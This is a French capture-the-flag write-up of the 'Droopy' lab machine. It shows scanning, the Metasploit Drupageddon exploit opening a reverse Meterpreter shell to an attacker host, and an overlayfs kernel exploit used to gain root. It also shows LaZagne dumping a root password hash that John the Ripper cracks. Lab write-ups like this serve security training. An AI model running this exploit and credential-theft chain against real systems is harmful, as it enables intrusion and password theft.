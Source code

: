 # DroopyCTF

1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.196
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.196...100%
[+] Scan Nmap 192.168.56.196...100%
 
[+] 80/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/m0rph3u5/Massap/192.168.56.196-tcp.html     |
==========================================================
```

&nbsp;

**Rapport Nmap**

![Capture du 2025-04-16 13-19-43](https://github.com/user-attachments/assets/8afe7517-8e8c-48fb-b43d-000d0371ffc5)

&nbsp;

<span style="color: #dddddd;">💥</span> **Metasploit - drupal_drupageddon** 

Exploitation de la `CVE` trouver par `nmap` ( cve-2014-3704)

```
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> set lhost 192.168.56.149
lhost => 192.168.56.149
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> set rhosts 192.168.56.196
rhosts => 192.168.56.196
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> run
[*] Started reverse TCP handler on 192.168.56.149:4444 
[*] Sending stage (40004 bytes) to 192.168.56.196
[*] Meterpreter session 1 opened (192.168.56.149:4444 -> 192.168.56.196:55448) at 2025-04-16 19:05:25 +0200

(Meterpreter 1)(/var/www/html) >
```

&nbsp;

**<span style="color: #dddddd;">🤖</span> LinPeas**

Élévation de privilege avec linpeas

```
www-data@droopy:/tmp$ sh linpeas.sh

╔══════════╣ Executing Linux Exploit Suggester
╚ 
[+] [CVE-2015-1328] overlayfs

   Details: http://seclists.org/oss-sec/2015/q2/717
   Exposure: highly probable
   Tags: [ ubuntu=(12.04|14.04){kernel:3.13.0-(2|3|4|5)*-generic} ],ubuntu=(14.10|15.04){kernel:3.(13|16).0-*-generic}
   Download URL: https://www.exploit-db.com/download/37292

```

&nbsp;

&nbsp;

**<span style="color: #dddddd;">💀</span> Exploit Overlays**

Test de l'exploit trouver precedement

```
www-data@droopy:/tmp$ gcc overlays.c   
gcc overlays.c
www-data@droopy:/tmp$ ./a.out
./a.out
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# bash -i
root@droopy:/tmp#
```

&nbsp;

<span style="color: #dddddd;">👾</span> **LaZagne**

Cherchons des mot de passe sur la machine

```
root@droopy:/tmp/LaZagne-2.4.6/Linux# python laZagne.py all
python laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Password found !!!
Login: gsuser
Password: gsuser

[+] Hash found !!!
Login: root
Hash: $6$fSUKb/ov$EFE6LjrVpz2yJrd2QSQEe/mGQ.8q3xXi9s5CJL95ngeh95PS91e10XLav4gRE1z4jv1Wmb6WH24yVQA6GKwEl/:16415:0:99999:7:::


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 1.15886497498
```

&nbsp;

**<span style="color: #dddddd;">🧨</span> JohnTheRipper**

Crack du mot de passe `root`

```
┌─[m0rph3u5@parrot]─[~]
└──╼ $john droop 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
toor             (root)     
1g 0:00:00:00 DONE 1/3 (2025-04-16 19:30) 16.66g/s 166.6p/s 166.6c/s 166.6C/s rootroot..RootRoot
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

&nbsp;

Identifiant trouver

| Users | Passwords |
| --- | --- |
| root | toor |
| gsuser | gsuser |
